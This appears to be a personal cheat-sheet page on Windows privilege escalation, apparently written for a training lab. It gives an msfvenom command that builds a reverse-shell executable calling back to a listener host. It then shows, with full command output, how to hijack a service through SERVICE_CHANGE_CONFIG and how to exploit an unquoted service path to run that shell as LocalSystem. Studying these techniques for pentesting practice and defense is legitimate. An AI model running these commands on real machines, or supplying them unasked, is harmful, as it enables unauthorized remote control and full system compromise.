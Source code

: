 ```yaml
---
title: Windows Privesc
description: Windows privilege escalation.
---
```


# Windows Privesc

## Tools

- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

## Reverse shell

Using `msfvenom` :

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe -o revshell.exe
```

Using [nishang](https://github.com/samratashok/nishang).

## Permissions

## View

List permissions of a user using `accesschk.exe`.

```powershell
C:\> accesschk.exe /accepteula -uwcqv <USER> <SERVER>

C:\> accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

## SERVICE_CHANGE_CONFIG

**SERVICE_CHANGE_CONFIG :** Change the service configuration.

```powershell
# Check the service 'daclsvc' configuration (qc : query configuration)
C:\PrivEsc>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Change the binpath value
C:\PrivEsc>sc config daclsvc binpath="\"C:\Users\user\revshell.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc>sc qc daclsvc
[...]
        BINARY_PATH_NAME   : "C:\Users\user\revshell.exe"
[...]

# Start the service 'daclsvc'
C:\PrivEsc>net start daclsvc
```

## Service unquoted path

```powershell
C:\PrivEsc>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Check if we can write into the folder
C:\PrivEsc>accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

# Copy reverse shell
C:\PrivEsc>copy C:\Users\user\revshell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.

C:\PrivEsc>net start unquotedsvc
...
```


